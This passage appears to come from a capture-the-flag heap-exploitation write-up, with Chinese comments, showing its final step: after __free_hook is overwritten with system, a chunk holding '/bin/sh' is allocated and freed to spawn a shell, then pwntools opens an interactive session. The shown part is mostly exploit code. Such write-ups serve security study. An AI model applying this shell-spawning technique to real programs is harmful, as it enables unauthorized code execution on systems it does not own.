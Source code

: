 



# Step-6: Get Shell: `system("/bin/sh")`

- `__free_hook `已经改成了system了，需要一次free来触发

```python
# === Step-6: getshell system("/bin/sh")
add(13, 0x70, "/bin/sh\0")  # 这里的size随意 只要是程序允许申请的大小即可
delete(13)  # trigger __free_hook # get shell system("/bin/sh")

sh.interactive(">>>interactive>>>")
```

